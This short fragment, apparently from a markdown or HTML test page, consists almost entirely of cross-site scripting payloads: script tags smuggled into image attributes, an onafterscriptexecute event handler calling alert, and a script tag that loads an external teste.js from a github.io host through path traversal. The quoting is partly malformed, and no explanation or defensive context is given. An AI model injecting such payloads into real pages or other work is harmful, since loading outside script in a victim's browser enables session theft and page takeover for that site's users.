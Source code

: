 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value=”"<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;"” width="alert(1)">

<img src='' onafterscriptexecute=alert(1)><script>1</script>
